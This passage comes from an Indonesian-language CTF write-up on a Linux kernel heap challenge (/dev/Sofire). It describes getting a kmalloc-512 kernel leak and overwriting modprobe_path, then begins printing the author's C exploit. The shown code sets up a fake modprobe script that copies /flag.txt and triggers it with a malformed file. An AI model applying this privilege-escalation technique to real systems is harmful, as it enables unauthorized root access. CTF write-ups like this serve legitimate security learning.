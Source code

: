 Pointer pertama pada sebuah sofirium chunk sangat berguna, sebab kita bisa ubahnya untuk membaca dan menulis kemanapun, karena secara efektif dia mengubah lokasi next node pada nft linked list. Dengan ini kita mencari kernel leak pada kmalloc-512, dan kemudian nulis ke modprobe_path.

### Itu aja
Itu aja sih sebenarnya. Dari situ kalian bisa ikut panduan [ini](https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/) oleh Midas untuk mendapatkan priv escalation dengan overwrite modprobe_path. Soal yang sangat seru!

### Catatan
Beberapa hal yang saya catat ketika exploitasi ini:

* Chunk yang dioverlap tetap harus align pada 0x100. Terkadang tetap gabisa, tapi jika tidak align, DIPASTIKAN tidak bisa.
* Alokasinya sedikit random jadi leaknya gak 100% konsisten. Exploitku berhasil kira2 1/10 kali lah

Berikut script yang lengkap:
```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sched.h>
#include <sys/mman.h>
#include <signal.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <linux/userfaultfd.h>
#include <sys/wait.h>
#include <poll.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>

#define CHUNK_SIZE 0x100

typedef struct request{
    int idx;
    char buffer[CHUNK_SIZE];
} request;

void get_flag(void){
    puts("[*] Returned to userland, setting up for fake modprobe");
    
    system("echo '#!/bin/sh\ncp /flag.txt /tmp/flag\nchmod 777 /tmp/flag' > /tmp/x");
    system("chmod +x /tmp/x");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");

    puts("[*] Run unknown file");
    system("/tmp/dummy");

    puts("[*] Hopefully flag is readable");
}

int main(int argc, char *argv[])
{
    puts("ASDF");
    int global_fd = open("/dev/Sofire", O_RDONLY);
    request data;
    data.idx = 0;
    strncpy(data.buffer, "AAAA", CHUNK_SIZE);
```